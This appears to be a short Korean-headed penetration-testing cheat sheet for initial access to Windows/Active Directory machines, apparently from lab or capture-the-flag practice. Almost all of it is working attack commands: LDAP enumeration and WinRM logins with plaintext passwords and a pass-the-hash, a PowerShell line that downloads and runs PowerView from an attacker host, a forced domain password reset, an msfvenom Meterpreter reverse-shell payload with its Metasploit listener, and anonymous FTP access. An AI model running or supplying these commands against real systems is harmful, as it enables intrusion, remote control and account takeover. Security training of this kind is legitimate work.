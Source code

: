 

<br>

---

## 초기 침투

### ldap
```
ldapsearch -x -H ldap://pinocure.com -D "ldap@pinocure.com" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=pinocure,dc=com" "(objectClass=*)"
```

### evil-winrm
```
evil-winrm -u pinocure -p 'Ironside47pleasure40Watchful' -i pinocure.com
evil-winrm -i 10.10.11.42 -u Administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
evil-winrm -i 10.10.10.233 -u pinocure -p '1edFg43012!!'
```

### 파일 업로드
```
upload /usr/share/windows-resources/binaries/nc.exe
```
```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.32:8000/PowerView.ps1')
$SecPassword = ConvertTo-SecureString 'ruang123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ('ADMINISTRATOR\michael', $SecPassword)
$UserPassword = ConvertTo-SecureString 'ruang123123' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $Cred
```

### rev shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=1337 -f exe > shell.exe
```

### msfconsole - multi handler(1회)
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set lhost 10.10.14.32
set lport 1337
run
```

### FTP
```
ftp benjamin@10.10.11.42
```
```
ftp 10.10.10.184
anonymous
passive
```
```
ftp anonymous@10.10.10.98
```
